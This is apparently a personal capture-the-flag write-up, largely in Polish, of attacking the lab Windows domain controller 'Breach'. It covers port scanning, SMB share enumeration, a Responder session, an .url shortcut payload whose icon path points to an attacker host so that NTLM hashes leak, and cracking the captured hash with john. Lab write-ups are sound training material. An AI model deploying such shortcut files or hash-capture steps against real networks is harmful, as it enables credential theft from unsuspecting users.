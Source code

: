 # Breach
Windows, Medium, created by **xct**

![breach_slide](https://github.com/user-attachments/assets/d3ba0a90-294a-4f8f-985a-fdcb98134eaf)

```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-28 20:32:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49907/tcp open  msrpc         Microsoft Windows RPC

```
```
dig @10.10.100.171 breach.vl any
dig @10.10.100.171 breach.vl axrf 
```
- nic ciekawego

```
enum4linux -u anonymous -a 10.10.100.171
enum4linux  -a 10.10.100.171
enum4linux -u guest -a 10.10.100.171
```

![{CD6EF018-BA6E-4B86-8DB9-BC259797566A}](https://github.com/user-attachments/assets/74bf33db-8fb4-4e1b-9d7d-9fb747b978ec)

![{942E308C-25DE-45F7-9EBA-007AB1554DF5}](https://github.com/user-attachments/assets/ff6afa0c-ef49-454d-8a04-1cf88e10d8e0)

![{DB2E06CF-0CCA-48D7-8BE3-644C3052DE30}](https://github.com/user-attachments/assets/05b3371d-9728-4f2b-b240-7fcdf52fa8eb)

ale za to dostaliśmy 3 username'y :D

```
mask ""
recurse
prompt
mget *
```

z `Users` trochę więcej

![{4F23DF53-A5C3-47F6-9077-B5F747FBE363}](https://github.com/user-attachments/assets/b491cce1-e183-454f-bfa4-b96d44073c41)

This is interesting for me (yeah maybe too much ctfs)

![{F1F0A729-9805-458C-8E99-462B03BECFDC}](https://github.com/user-attachments/assets/e26ead42-7abe-44c4-9c9c-a764b0f9179f)

![{2E617D97-9E8E-4BD4-B0EA-61829A6263BC}](https://github.com/user-attachments/assets/62978a73-097d-4335-8796-3b0e200df6e5)

W sumie kilka minut posiedziałem i nic nie znalazłem

Ale dobra, bo ja płynę, a tutaj wszystko pewnie jest logiczne. Jak mamy WRITE na share to znaczy, że tam pewnie ktoś wchodzi.

włączamy `sudo responder -i tun0` i szukamy payloadu

nr 1
```
[InternetShortcut]
URL=http://10.8.4.124
IconIndex=0
IconFile=\\10.8.4.124\leak\leak.ico
```

dobra podwóch mi się odechciało. użyję `https://github.com/Greenwolf/ntlm_theft.git`

![{DF49B923-FB14-44D3-AA85-0E5D5A91DE04}](https://github.com/user-attachments/assets/099d8350-2a3f-4892-bbf2-916d1e9cee09)

i znowu sztuczka z masyowym przesyłaniem

![{53EEC5AC-E898-4C3E-B5C7-DF659BD67ADF}](https://github.com/user-attachments/assets/29523174-45e9-446f-967f-135f06aa4133)

- nic po 2 minutach. Odnoszę wrażenie, że folder o nazwie `transfer` może mieć tą nazwę nie bez powodu xd

![{6DB7DC6E-8AF9-4C8C-AE8A-C945EE9F26CF}](https://github.com/user-attachments/assets/76b53357-0650-47c9-89f8-47ea85b39578)

yes..

![{DBF9EDD0-BF6D-46C2-BA1A-7A13FE512CF8}](https://github.com/user-attachments/assets/638cd22b-2004-4de3-9ab6-f818845302c6)

a to mnie zaskoczyli

okey my bad...

![{48299F14-D958-4CE6-B1DD-7780683C6E7C}](https://github.com/user-attachments/assets/e1843f12-aad9-4e11-a82d-6f46091e2733)

after correction john cracked it in 00sek

![{C938CBDA-424C-4E0C-82F4-A37FAA14667C}](https://github.com/user-attachments/assets/4547518c-a868-4c3a-8ff1-726a32f6f65d)

![{09740161-3FE9-4F20-BE79-C0E71EA2CA7C}](https://github.com/user-attachments/assets/b0864eac-3608-4452-add7-1ad5c0fb69a0)

mamy jakiś pliczek

![{21D09F77-729F-469C-9654-4DE622DCA38C}](https://github.com/user-attachments/assets/2e1558fa-8c14-435d-8fc8-9b87a36f0c71)

we also have access to anoter users but their directories are empty.


